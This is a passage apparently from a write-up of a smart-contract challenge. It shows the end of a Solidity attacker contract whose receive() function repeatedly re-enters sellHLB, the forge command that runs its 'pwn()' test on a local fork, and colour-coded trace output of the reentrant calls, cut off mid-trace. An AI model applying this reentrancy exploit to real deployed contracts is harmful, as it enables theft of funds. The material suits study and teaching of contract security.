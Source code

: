 ```solidity
        ht.sellHLB(1);
        ht.senior();
    }

    receive() external payable {
        emit log_named_uint(
            "seniority",
            ht.seniorityOf(address(this)) / 365 days
        );
        if (i <= 8) {
            i++;
            ht.sellHLB(1);
        }
    }
}
```

Running the above script with forge:

```bash
forge run test/token.t.sol --fork-url http://127.0.0.1:8545 --sig "pwn()" -vvvv
```

returns the following output:

<pre><b>[</b><font color="#4E9A06"><b>⠒</b></font><b>]</b> Compiling...    
<b>[</b><font color="#4E9A06"><b>⠢</b></font><b>]</b> Compiling 6 files with 0.8.13    
<b>[</b><font color="#4E9A06"><b>⠰</b></font><b>]</b> Solc 0.8.13 finished in 2.02s  
Compiler run successful
Traces:   
  [278997] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">pwn</font>()    
    ├─ [28455] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">dbd6bdcb</font>{value: 12}()   
    │   └─ <font color="#4E9A06">← </font>()
    ├─ [234688] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)    
    │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>
    │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font> 
    │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font> 
    │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>
    │   ├─ [198085] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000001e13380 
    │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 1)   
    │   │   ├─ [171914] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>  
    │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font> 
    │   │   │   ├─ [159211] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  